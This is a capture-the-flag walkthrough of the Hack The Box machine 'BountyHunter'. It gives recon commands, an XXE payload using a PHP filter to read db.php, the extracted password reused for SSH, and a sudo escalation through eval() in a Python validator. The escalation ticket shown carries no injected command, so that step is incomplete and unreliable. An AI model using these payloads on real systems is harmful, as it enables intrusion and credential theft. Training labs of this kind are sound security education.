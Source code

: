 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp <IP>
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts <IP>
```

---

## 🕵️ [Web Enumeration](HTTP)
```bash
# Add to /etc/hosts
<IP> bountyhunter.htb

# Fuzz VHosts
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://bountyhunter.htb -H "Host: FUZZ.bountyhunter.htb" --fs 194
```

### Identified:
- **www.bountyhunter.htb** (Default Page)
- **tracker_diRbPr00f314.php** (Found via Burp/Form Submission)

---

## 📂 XML/XXE Exploitation
### Decode Burp Request:
1. URL-decode `data`
2. Base64-decode result
3. XML structure remains

### Exploit XXE to Read Files
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
<bugreport>
  <title>test</title>
  <cwe>123</cwe>
  <cvss>5</cvss>
  <reward>&xxe;</reward>
</bugreport>
```

### Encode for Delivery:
- Base64 the above
- URL encode the Base64

### Submit via Burp:
```http
POST /tracker_diRbPr00f314.php
...
data=<encoded payload>
```

### Result:
```bash
# Decode base64 response to read db.php
cat result.b64 | base64 -d
```

### Extracted Password:
```bash
# dbpassword: m19RoAU0hP41A1sTsq6K
```

---

## 🔐 [Shell as Development](SSH)
```bash
ssh development@<IP>
# password: m19RoAU0hP41A1sTsq6K
```
```bash
cat ~/user.txt
```

---

## 🖕 Root Escalation
### Check sudo perms:
```bash
sudo -l
```
```bash
# Result:
(root) NOPASSWD: /opt/ticketValidator/ticketValidator.py
```

### Inspect Script:
```python
# dangerous line
validationNumber = eval(x.replace("**", ""))
```

### Bypass Ticket Format:
```bash
# Example ticket:
cat << EOF > /tmp/ticket
== Ticket ==
TicketCode: 18
**101+1
EOF
```

### Run Validator with Ticket:
```bash
sudo /opt/ticketValidator/ticketValidator.py /tmp/ticket
```

### Get Root Flag:
```bash
cat /root/root.txt
```

---

## 📚 Summary
- Web endpoint: `/tracker_diRbPr00f314.php`
- Encodings: URL, Base64
- Data format: XML
- Attack: XXE
- XXE Bypass with: PHP filters (`php://filter/...`)
- Priv Esc: Insecure use of `eval()` in sudo Python script

---

## 📚 Resources
- [SecJuice BountyHunter Walkthrough](https://www.secjuice.com/htb-bountyhunter-walkthrough/)
- [PayloadAllTheThings: XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

